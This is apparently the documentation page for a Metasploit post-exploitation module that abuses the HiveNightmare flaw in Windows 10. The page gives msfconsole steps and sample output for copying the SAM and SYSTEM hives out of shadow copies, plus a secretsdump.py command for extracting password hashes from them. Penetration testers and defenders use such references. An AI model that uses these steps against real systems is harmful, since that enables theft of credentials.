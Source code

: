 ## Vulnerable Application

### Description

Due to mismanagement of SAM and SYSTEM hives in Windows 10, it is possible for an unprivileged
user to read those files. But, as they are locked while Windows is running we are not able
to read them directly. The trick is to take advantage of Volume Shadow Copy, which is generally
enabled, to finally have a read access. Once SAM and SYSTEM files are successfully dumped and
stored in `store_loot`, you can dump the hashes with some external scripts like secretsdump.py

### Installation

VSS is probably already enabled on your Windows 10, if you want to be sure you can follow the steps below :

- Go to `System Properties GUI`
- Go to `System Protection`tab
- See in `Protection Settings` list if your drive protection is enabled

Be aware that you will need Administrator privileges to follow those steps.
You can read more [here](https://isc.sans.edu/diary/Summer+of+SAM+-+incorrect+permissions+on+Windows+1011+hives/27652).

## Verification Steps


1. Start `msfconsole`
2. `use post/windows/gather/credentials/windows_sam_hivenightmare`
3. `set NBRE_ITER <number>` to specify the number of iterations on file index (default is 10)
4. `set FILE_INDEX <number>` optionally if you want to target a specific file index instead of iterating on all indexes in a range
5. `run` the module to exploit the vulnerability and potentially leak SAM and SYSTEM files

## Options

### NBRE_ITER

Set NBRE_ITER to specify the number of iterations on Shadow Copy file index.
Windows is saving those files under the volume name `HarddiskVolumeShadowCopy<index>`.
By default, this module is bruteforcing that `index` value by trying all values between 0 and 10, which you can change if needed.

### FILE_INDEX

Set FILE_INDEX if you want to target a specific index instead of the default behaviour which bruteforces all indexes in a given range.

## Scenarios

This module was successfully tested on Windows 10 20H2.
See the following output:

```
msf6 post(windows/gather/credentials/windows_sam_hivenightmare) > run

[!] SESSION may not be compatible with this module (incompatible session type: meterpreter)
[+] SAM data found in HarddiskVolumeShadowCopy5 !
[+] SAM data found in HarddiskVolumeShadowCopy6 !
[+] Retrieving files of index 5 as they are the most recently modified...
[+] SAM data saved at C:/Users/test/.msf4/loot/20210728102132_default_127.0.0.1_windows.sam_851932.bin
[+] SYSTEM data saved at C:/Users/test/.msf4/loot/20210728102220_default_127.0.0.1_windows.system_036753.bin
[+] SAM and SYSTEM data were leaked !
[*] Post module execution completed
```

Then, you can dump the hashes from leaked files with `secretsdump.py` for instance :
`python3 secretsdump.py -sam <SAM_FILE> -system <SYSTEM_FILE> LOCAL`